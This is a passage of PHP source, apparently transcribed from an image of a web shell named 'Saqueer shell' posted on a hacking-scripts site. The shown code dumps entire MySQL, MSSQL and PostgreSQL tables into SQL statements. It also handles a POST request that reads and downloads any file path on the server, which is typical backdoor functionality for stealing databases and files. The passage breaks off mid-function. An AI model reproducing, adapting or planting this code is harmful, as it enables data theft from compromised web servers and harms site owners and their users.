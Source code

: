  {
 if(empty($table)) return 0; $this-&gt;dump=array(); $this-&gt;dump[0] = '##'; $this-&gt;dump[1] = '## --------------------------------------- '; $this-&gt;dump[2] = '##  Created: '.date ("d/m/Y H:i:s"); $this-&gt;dump[3] = '## Database: '.$this-&gt;base; $this-&gt;dump[4] = '##    Table: '.$table; $this-&gt;dump[5] = '## --------------------------------------- '; switch($this-&gt;db) 
 {
 case 'MySQL': $this-&gt;dump[0] = '## MySQL dump'; if($this-&gt;query('/*'.chr(0).'*/ SHOW CREATE TABLE `'.$table.'`')!=1) return 0; if(!$this-&gt;get_result()) return 0; $this-&gt;dump[] = $this-&gt;rows[0]['Create Table'].";"; $this-&gt;dump[] = '## --------------------------------------- '; if($this-&gt;query('/*'.chr(0).'*/ SELECT * FROM `'.$table.'`')!=1) return 0; if(!$this-&gt;get_result()) return 0; for($i=0;$i&lt;$this-&gt;num_rows;$i++) 
 {
 foreach($this-&gt;rows[$i] as $k=&gt;$v) 
 {
$this-&gt;rows[$i][$k] = @mysql_real_escape_string($v);}
 $this-&gt;dump[] = 'INSERT INTO `'.$table.'` (`'.@implode("`, `", $this-&gt;columns).'`) VALUES (\''.@implode("', '", $this-&gt;rows[$i]).'\');'; }
 break; case 'MSSQL': $this-&gt;dump[0] = '## MSSQL dump'; if($this-&gt;query('SELECT * FROM '.$table)!=1) return 0; if(!$this-&gt;get_result()) return 0; for($i=0;$i&lt;$this-&gt;num_rows;$i++) 
 {
 foreach($this-&gt;rows[$i] as $k=&gt;$v) 
 {
$this-&gt;rows[$i][$k] = @addslashes($v);}
 $this-&gt;dump[] = 'INSERT INTO '.$table.' ('.@implode(", ", $this-&gt;columns).') VALUES (\''.@implode("', '", $this-&gt;rows[$i]).'\');'; }
 break; case 'PostgreSQL': $this-&gt;dump[0] = '## PostgreSQL dump'; if($this-&gt;query('SELECT * FROM '.$table)!=1) return 0; if(!$this-&gt;get_result()) return 0; for($i=0;$i&lt;$this-&gt;num_rows;$i++) 
 {
 foreach($this-&gt;rows[$i] as $k=&gt;$v) 
 {
$this-&gt;rows[$i][$k] = @addslashes($v);}
 $this-&gt;dump[] = 'INSERT INTO '.$table.' ('.@implode(", ", $this-&gt;columns).') VALUES (\''.@implode("', '", $this-&gt;rows[$i]).'\');'; }
 break; case 'Oracle': $this-&gt;dump[0] = '## ORACLE dump'; $this-&gt;dump[] = '## under construction'; break; default: return 0; break; }
 return 1; }
 function close() 
 {
 switch($this-&gt;db) 
 {
 case 'MySQL': @mysql_close($this-&gt;connection); break; case 'MSSQL': @mssql_close($this-&gt;connection); break; case 'PostgreSQL': @pg_close($this-&gt;connection); break; case 'Oracle': @oci_close($this-&gt;connection); break; }
 }
 function affected_rows() 
 {
 switch($this-&gt;db) 
 {
 case 'MySQL': return @mysql_affected_rows($this-&gt;res); break; case 'MSSQL': return @mssql_affected_rows($this-&gt;res); break; case 'PostgreSQL': return @pg_affected_rows($this-&gt;res); break; case 'Oracle': return @ocirowcount($this-&gt;res); break; default: return 0; break; }
 }
 }
 if(!empty($_POST['cccc']) && $_POST['cccc']=="download_file" && !empty($_POST['d_name'])) 
 {
 if(!$file=@fopen($_POST['d_name'],"r")) 
 {
 err(1,$_POST['d_name']); $_POST['cccc']=""; }
 else 
 {
 @ob_clean(); $filename = @basename($_POST['d_name']); $filedump = @fread($file,@filesize($_POST['d_name'])); fclose($file); $content_encoding=$mime_type=''; compress($filename,$filedump,$_POST['compress']); if (!empty($content_encoding)) 

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png